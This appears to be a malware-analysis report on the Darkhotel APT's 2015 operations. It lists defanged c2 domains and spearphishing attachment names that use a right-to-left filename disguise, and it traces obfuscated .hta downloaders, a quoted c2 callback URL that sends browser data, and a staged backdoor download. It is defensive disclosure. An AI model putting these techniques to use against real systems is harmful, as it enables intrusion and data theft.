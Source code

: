 2015 Darkhotel .hta and backdoor-related, exploit-related and c2 sites:

storyonboard[.]net
tisone360[.]org
openofficev[.]info
saytargetworld[.]net
error-page[.]net
eonlineworld[.]net
enewsbank[.]net
thewordusrapid[.]com

2015 spearphishing incident attachment name subset:

schedule(6.1~6).rar -> schedule(6.1~6)_?gpj.scr
schedule(2.11~16).rar -> schedule(2.11~16)_?gpj.scr
congratulation.rar -> congratulation_?gpj.scr
letter.rar -> letter_?gpj.scr

Consistent use of obfuscated .hta downloaders
Whether the infection is achieved through spearphishing, physical access to a system or the Hacking Team Flash 0day, there frequently seems to be a common method for a newly-infected system to communicate with Darkhotel’s c2:
A lightly obfuscated (double escaped set of javascript variable values) script maintained within an .hta file writes an executable to disk and executes it.
It is interesting that this particular group has for years now deployed backdoor and downloader code in the form of .hta files. In 2010, we observed it re-purposing articles on North Korea by the US think-tank, Brookings Institute, in order to attack North Korean-related targets with malicious code buried in .hta files. It also emailed links to its malicious .hta files to North Korean tourist groups, economists with an interest in North Korea, and more. It’s somewhat strange to see such heavy reliance on older Windows-specific technology like HTML applications, introduced by Microsoft in 1999.
From the recent sendspace[.]servermsys[.]com/downloader.hta:

After execution and escaping a couple of variables, the .hta uses ancient Adodb.stream components in order to write out a string xor’d with 0x3d as an executable file and runs it.

This code results in the execution of “internet_explorer_Smart_recovery.exe” 054471f7e168e016c565412227acfe7f, and a hidden browser window phoning back to its c2. In this case, it seems that Darkhotel operators are checking as to whether or not the victim’s default browser is Internet Explorer, as all versions of IE return the value “0” and other browsers leave “appMinorVersion” undefined. This data collection seems somewhat odd, because .hta files are supported and run by mshta.exe on Windows systems only, still delivered with Windows 8. Perhaps it is an artefact from early development of the code. Here is a recent version:
“hxxp://sendspace[.]servermsys[.]com/readme.php?type=execution&result=created_and_executed&info=” + navigator.appMinorVersion + “

The “internet_explorer_Smart_recovery.exe” file is a simple obfuscated downloader. A series of xor 0x28 loops decrypt the contents of a self-deletion batch file, which is then written to disk and executed. Later in the execution, a more complex rc4 loop decrypts the download url and other strings and imports.

When finished, this url string decryption and connectback looks like
http://sendspace[.]servermsys[.]com/wnctprx. The file is downloaded (b1f56a54309147b07dda54623fecbb89) to “.tmp” file in %temp%, executed, and the downloader exits. This larger file is a backdoor/downloader that includes ssh functionality, and drops its keys to disk for ssh interaction. We find older Darkhotel information stealers dropped and run on the system by these downloaders.
Spearphishing and .rar Attachments with RTLO
The Darkhotel APT will relentlessly spearphish specific targets in order to successfully compromise systems. Some targets are spearphished repeatedly with much the same social-engineering schemes. For example, the attachment “schedule(2.11~16).rar” could be sent on February 10th, with Darkhotel returning to the same targets in late May for a second attempt with attachment “schedule(6.1~6).rar”.
